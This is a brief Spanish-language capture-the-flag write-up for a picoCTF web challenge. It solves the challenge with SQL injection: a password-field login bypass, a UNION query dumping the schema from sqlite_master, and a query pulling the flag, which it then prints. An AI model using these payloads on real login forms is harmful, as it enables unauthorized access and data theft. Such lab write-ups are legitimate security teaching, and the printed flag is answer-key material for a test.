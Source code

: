 Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:62142/).

Hints: 
SQLiLite

# Solución
Primero ingresar al sitio y hacer login inyectando una instrucción sql en la contraseña asi:
```
' or 1=1;
```
Despues descubrir que tablas hay en la base de datos 
```
' union select sql, 2,3 from sqlite_master;
```
Ya teniendo la estructura de las tablas ingresamos a la que nos interesa donde se encuentra la flag
```
' union select id, flag, 3 from more_table;
```
Asi obtenemos la flag
```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37}
```
